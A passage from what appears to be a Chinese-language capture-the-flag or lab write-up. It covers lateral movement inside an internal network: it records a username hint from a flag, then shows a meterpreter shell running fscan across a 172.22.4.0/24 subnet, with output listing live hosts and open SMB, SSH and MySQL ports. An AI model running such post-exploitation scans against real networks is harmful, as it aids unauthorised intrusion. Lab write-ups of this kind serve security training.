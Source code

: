 查看flag

[![](assets/1705540441-4136b463da73b29c6985f0ab8fc02fac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174619-198dcf5e-b454-1.png)

给了一段话

```plain
Great job!!!!!!
Here is the hint: WIN19\Adrian
I'll do whatever I can to rock you...
```

明显是一个用户名，先留着

# 内网横向

## 信息搜集

上线VIPER后fscan扫描

```plain
meterpreter > shell -c './fscan -h 172.22.4.36/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.4.36     is alive
(icmp) Target 172.22.4.45     is alive
(icmp) Target 172.22.4.7      is alive
(icmp) Target 172.22.4.19     is alive
[*] Icmp alive hosts len is: 4
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.36:22 open
172.22.4.36:21 open
172.22.4.36:3306 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:445 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.45:139 open
172.22.4.19:135 open
172.22.4.45:135 open
172.22.4.7:135 open
```